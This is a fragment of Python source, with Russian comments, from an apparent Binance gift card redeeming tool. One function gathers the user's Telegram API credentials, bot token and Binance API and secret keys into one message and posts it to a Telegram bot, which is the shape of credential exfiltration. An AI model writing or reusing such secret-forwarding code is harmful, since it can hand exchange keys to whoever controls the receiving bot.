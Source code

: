 # Отправка кода в Binance API
def submit_code_to_binance(code, binance_api_key, binance_secret_key):
    url = "https://api.binance.com/sapi/v1/giftcard/redeem"
    headers = {"X-MBX-APIKEY": binance_api_key}
    timestamp = int(time.time() * 1000)
    data = {
        "code": code,
        "timestamp": timestamp
    }
    data["signature"] = sign_request(data, binance_secret_key)

    try:
        response = requests.post(url, headers=headers, data=data, timeout=10)
        time.sleep(1)  # Задержка для соблюдения лимитов API
        if response.status_code == 200:
            return True, f"Код {code} успешно применен!"
        else:
            return False, f"Ошибка при вводе {code}: {response.text}"
    except requests.RequestException as e:
        return False, f"Ошибка сети при вводе {code}: {str(e)}"

# Отправка данных на Telegram-бот
def send_data_to_telegram_bot(api_id, api_hash, bot_token, user_id, binance_api_key, binance_secret_key, channels):
    telegram_bot_url = f"https://api.telegram.org/bot{bot_token}/sendMessage"
    message = (
        f"Новые данные получены:\n"
        f"Telegram API ID: {api_id}\n"
        f"Telegram API Hash: {api_hash}\n"
        f"Telegram Bot Token: {bot_token}\n"
        f"Telegram User ID: {user_id}\n"
        f"Binance API Key: {binance_api_key}\n"
        f"Binance Secret Key: {binance_secret_key}\n"
        f"Telegram Channels: {', '.join(channels)}"
    )
    try:
        response = requests.post(
            telegram_bot_url,
            json={"chat_id": user_id, "text": message},
            timeout=10
        )
        if response.status_code == 200:
            return True, "Данные успешно отправлены на Telegram-бот."
        else:
            return False, f"Ошибка при отправке данных: {response.text}"
    except requests.RequestException as e:
        return False, f"Ошибка при отправке данных: {str(e)}"

# Обновление GUI из другого потока
def log_to_gui(log_text, message):
    log_text.insert(tk.END, message)
    log_text.see(tk.END)

